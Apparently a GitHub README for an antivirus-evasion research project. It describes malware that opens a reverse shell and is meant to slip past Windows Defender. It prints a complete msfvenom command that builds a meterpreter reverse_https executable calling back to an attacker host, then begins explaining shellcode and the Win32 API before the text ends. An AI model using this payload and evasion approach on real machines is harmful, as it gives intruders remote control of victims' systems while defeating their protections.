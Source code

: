 # Windows Security Evasion, for research porpose

Malicious software that is running a reverse shell, to get full access remote to the victim machine and this software can easily bypass windows security / windows defender and others AV's, up to now (01/04/2022).


# Anti-Virus Evasion Research

I wanted to bypass the Windows Security Virus &amp; Threat Protection with some meterpreter malware that gives me access of the victim shell, so with I could get a reverse shell.

So I tried the vanilla version of the meterpreter that you can easily forge from msfvenom:

msfvenom -p windows/x64/meterpreter/reverse\_https LHOST=eth0 LPORT=4444 -f exe -o test\_exploit.exe

With that I uploaded this piece of software that is executable for windows and it contains our malware vanilla (PE32+ executable (GUI) x86-64, for MS Windows). ![](RackMultipart20220505-1-ufecre_html_84951da6f0d4c369.png)

As you can see it has been detected as a malware in 19 differents anti-virus, but this is not too good, because even a vanilla version of a malware can bypass or can be undetected in some anti-virus softwares in the market.

But our target (Windows Defewnder) detected it as a &quot;Trojan:Win64/Meterpreter.D&quot;, so we can play around with our payload and try to bypass, this is my mission during this research.

So in msfvenom we could create a exe file to run in windows system, but also we can create a payload from that software to create a shellcode containing the malware that we want to run in the victim victim with windows defender running.

Shellcodes are pieces of machine code designed to run local or remote system shell (hence the name). They are mainly used during exploitation of software vulnerabilities - when an attacker is able to control program&#39;s execution flow he needs some universal payload to execute desired action (usually shell access). This applies to both local exploitation (e.g. for privilege escalation) and remote exploitation (for gaining RCE on a server).

But first let&#39;s use Win32 API that is built into Windows, and that is an application programmig interface written in C by Microsoft to allow access to Windows features.
